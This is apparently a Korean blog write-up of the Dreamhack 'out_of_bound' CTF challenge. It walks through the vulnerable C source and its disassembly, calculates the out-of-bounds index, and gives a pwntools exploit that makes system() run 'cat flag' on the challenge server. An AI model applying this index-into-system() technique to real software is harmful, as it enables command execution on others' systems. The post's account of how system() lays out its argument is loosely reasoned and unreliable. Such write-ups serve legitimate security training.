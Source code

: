 ```yaml
---
published: true
image: /img
layout: post
title: Dreamhack out_of_bound 문제풀이
tags: [Dreamhack, pwnable, ctf, writeup]
math: true
date: 2022-03-07 21:00
---
```


out of bound(OOB)는 버퍼의 길이를 벗어나는 인덱스를 참조하려 할때 발생할 수 있는 취약점이다.
<br>
이번 문제의 소스코드를 먼저 살펴보자.

```c++
char name[16];

char *command[10] = { "cat",
    "ls",
    "id",
    "ps",
    "file ./oob" };
void alarm_handler()
{
    puts("TIME OUT");
    exit(-1);
}

void initialize()
{
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}

int main()
{
    int idx;

    initialize();

    printf("Admin name: ");
    read(0, name, sizeof(name));
    printf("What do you want?: ");

    scanf("%d", &idx);

    system(command[idx]);

    return 0;
}
```

main함수를 따라가면서 살펴보면 먼저 관리자 이름을 name이라는 변수에 입력 받는다. 이후 What do you want?라는 문구와 함께 어떤 작업을 실행할 것인지 int형을 scanf로 입력 받는다. 이후 입력받은 값을 idx라는 변수에 넣고 system함수를 통해 command[idx]를 실행하고 프로그램은 종료한다.

system함수는 C언어 내부에서 쉘을 사용할 수 있는 기능을 제공하며 배열 10이 할당되어 있으나 scanf에서는 입력받는 크기가 제한이 없는것을 볼수 있다. 이부분을 공략하면 될 것 같다.

일단 같이 제공된 바이너리를 peda를 통해 disas main 해보자.
```shell
   0x080486cb <+0>: 	lea    ecx,[esp+0x4]
   0x080486cf <+4>: 	and    esp,0xfffffff0
   0x080486d2 <+7> :	push   DWORD PTR [ecx-0x4]
   0x080486d5 <+10>:	push   ebp
   0x080486d6 <+11>:	mov    ebp,esp
   0x080486d8 <+13>:	push   ecx
   0x080486d9 <+14>:	sub    esp,0x14
   0x080486dc <+17>:	mov    eax,gs:0x14
   0x080486e2 <+23>:	mov    DWORD PTR [ebp-0xc],eax
   0x080486e5 <+26>:	xor    eax,eax
   0x080486e7 <+28>:	call   0x804867b <initialize>
   0x080486ec <+33>:	sub    esp,0xc
   0x080486ef <+36>:	push   0x8048811
   0x080486f4 <+41>:	call   0x80484b0 <printf@plt>
   0x080486f9 <+46>:	add    esp,0x10
   0x080486fc <+49>:	sub    esp,0x4
   0x080486ff <+52>:	push   0x10
   0x08048701 <+54>:	push   0x804a0ac
   0x08048706 <+59>:	push   0x0
   0x08048708 <+61>:	call   0x80484a0 <read@plt>
   0x0804870d <+66>:	add    esp,0x10
   0x08048710 <+69>:	sub    esp,0xc
   0x08048713 <+72>:	push   0x804881e
   0x08048718 <+77>:	call   0x80484b0 <printf@plt>
   0x0804871d <+82>:	add    esp,0x10
   0x08048720 <+85>:	sub    esp,0x8
   0x08048723 <+88>:	lea    eax,[ebp-0x10]
   0x08048726 <+91>:	push   eax
   0x08048727 <+92>:	push   0x8048832
   0x0804872c <+97>:	call   0x8048540 <__isoc99_scanf@plt>
   0x08048731 <+102>:	add    esp,0x10
   0x08048734 <+105>:	mov    eax,DWORD PTR [ebp-0x10]
   0x08048737 <+108>:	mov    eax,DWORD PTR [eax*4+0x804a060]
   0x0804873e <+115>:	sub    esp,0xc
   0x08048741 <+118>:	push   eax
   0x08048742 <+119>:	call   0x8048500 <system@plt>
   0x08048747 <+124>:	add    esp,0x10
   0x0804874a <+127>:	mov    eax,0x0
   0x0804874f <+132>:	mov    edx,DWORD PTR [ebp-0xc]
   0x08048752 <+135>:	xor    edx,DWORD PTR gs:0x14
   0x08048759 <+142>:	je     0x8048760 <main+149>
   0x0804875b <+144>:	call   0x80484e0 <__stack_chk_fail@plt>
   0x08048760 <+149>:	mov    ecx,DWORD PTR [ebp-0x4]
   0x08048763 <+152>:	leave  
   0x08048764 <+153>:	lea    esp,[ecx-0x4]
   0x08048767 <+156>:	ret 
```
우선 집중해서 봐야할 부분은 name의 주소값과 command의 주소값인것 같다.

name    : 0x804a0ac<br>
command : 0x804a060

각 주소값의 거리를 계산해 보면 name(0x804a0ac) - command(0x804a060) = 0x4C이다.
4C를 10진수로 변환하면 76이고 포인터 배열이 하나당 4바이트씩 할당하니 76/4를 하면 19가 나온다.

name의 위치는 command주소로 부터 [19]만큼 떨어져 있다고 볼수 있다.
그럼 name에는 "/bin/sh"를 주고 idx를 19를 입력하면 될것 같다.

여기서 조심해야 할 것이 system함수이다.

system 함수는 외부 라이브러리이기 때문에 변수주소_4바이트+exec_code(인수)로 구성되어 있다고 한다. 예를 들어 system("cat flag"); 이라는 명령어를 실행하면 메모리에는 변수주소_4바이트 + cat flag가 들어간다. 따라서 결과 리턴을 위한 name+4의 값과  cat flag를 인수로 줘야 한다.

이제 파이썬을 이용해 익스플로잇 코드를 짜보자

```python
from pwn import *

conn = remote("host2.dreamhack.games", 16966)

print(conn.recv())

payload = p32(0x804a0ac+4) #name주소 + 4byte
payload += b"cat flag"
print(payload)
conn.sendline(payload)
print(conn.recv())

conn.sendline(b"19")
print(conn.recvall().decode('utf-8'))
```

위 코드를 실행하면 플레그 값을 얻을 수 있다.
이번 문제를 풀면서 system함수의 어셈블리 호출규약을 알아볼 필요성을 느꼈다.
좀더 공부를 하고 포스팅 내용을 보충해야 겠다.

